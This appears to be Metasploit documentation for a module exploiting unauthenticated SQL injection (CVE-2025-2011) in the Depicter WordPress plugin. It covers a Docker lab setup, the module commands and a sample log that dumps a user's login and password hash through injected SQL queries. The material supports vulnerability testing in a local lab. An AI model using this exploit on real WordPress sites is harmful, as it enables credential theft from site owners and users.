 ## Vulnerable Application

The vulnerability affects the **Slider & Popup Builder by Depicter** plugin for WordPress,
versions **up to 3.6.1**, allowing **unauthenticated SQL injection** via the `s` parameter on `admin-ajax.php`.
WordPress itself must be installed.

### Pre-requisites

* **Docker** and **Docker Compose** installed.


## Setup Instructions

1. **Create a `docker-compose.yml`** with:

```yaml
version: '3.1'

   services:
     wordpress:
       image: wordpress:latest
       restart: always
       ports:
         - 5555:80
       environment:
         WORDPRESS_DB_HOST: db
         WORDPRESS_DB_USER: chocapikk
         WORDPRESS_DB_PASSWORD: dummy_password
         WORDPRESS_DB_NAME: exploit_market
       mem_limit: 512m
       volumes:
         - wordpress:/var/www/html

     db:
       image: mysql:5.7
       restart: always
       environment:
         MYSQL_DATABASE: exploit_market
         MYSQL_USER: chocapikk
         MYSQL_PASSWORD: dummy_password
         MYSQL_RANDOM_ROOT_PASSWORD: '1'
       volumes:
         - db:/var/lib/mysql

   volumes:
     wordpress:
     db:
```

2. **Start the environment**

```bash
docker-compose up -d
```

3. **Install Depicter plugin**

```bash
wget https://downloads.wordpress.org/plugin/depicter.3.6.1.zip
unzip depicter.3.6.1.zip
docker cp depicter wordpress:/var/www/html/wp-content/plugins/
```

4. **Activate Depicter**

* Browse to `http://localhost:5555/wp-admin`, log in as admin (create one if needed), and activate **Slider & Popup Builder by Depicter**.
* No additional setup is required.


## Verification Steps

1. **Launch Metasploit**

```bash
msfconsole
```

2. **Load the Depicter SQLi scanner**

```bash
use auxiliary/gather/wp_depicter_sqli_cve_2025_2011
set RHOSTS 127.0.0.1
set RPORT 5555
set TARGETURI /
```

3. **Run the module**

```bash
run
```

4. **Observe output**

The module should:

* Retrieve the database name
* Enumerate tables and infer the `wp_users` table
* Extract `user_login:user_pass` for the number of rows set by `COUNT`

## Options

* **TARGETURI** (`/`): base path to WordPress
* **COUNT** (`1`): number of user rows to retrieve

## Scenarios

```bash
msf6 auxiliary(gather/wp_depicter_sqli_cve_2025_2011) > exploit
[*] Running automatic check ("set AutoCheck false" to disable)
[*] {SQLi} Executing (select 'bEJ')
[*] {SQLi} Encoded to (select 0x62454a)
[+] The target is vulnerable.
[*] {SQLi} Executing (SELECT 15 FROM information_schema.tables WHERE table_name = 'wp_users')
[*] {SQLi} Encoded to (SELECT 15 FROM information_schema.tables WHERE table_name = 0x77705f7573657273)
[*] {WPSQLi} Retrieved default table prefix: 'wp_'
[*] {SQLi} Executing (select group_concat(DCdo) from (select cast(concat_ws(';',ifnull(user_login,''),ifnull(user_pass,'')) as binary) DCdo from wp_users limit 1) ofAGxxQl)
[*] {SQLi} Encoded to (select group_concat(DCdo) from (select cast(concat_ws(0x3b,ifnull(user_login,repeat(0xa,0)),ifnull(user_pass,repeat(0x2,0))) as binary) DCdo from wp_users limit 1) ofAGxxQl)
[!] No active DB -- Credential data will not be saved!
[+] {WPSQLi} Credential for user 'chocapikk' created successfully.
[*] {WPSQLi} Dumped user data:
wp_users
========

    user_login  user_pass
    ----------  ---------
    chocapikk   $wp$2y$10$rc5oXfNPG.bYSnbYvELKZeGgoQ9.QHcAXG8U/xunfXzsviMQkiPga

[+] Loot saved to: /home/chocapikk/.msf4/loot/20250521182202_default_127.0.0.1_wordpress.users_171366.txt
[*] {WPSQLi} Reporting host...
[*] {WPSQLi} Reporting service...
[*] {WPSQLi} Reporting vulnerability...
[+] {WPSQLi} Reporting completed successfully.
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
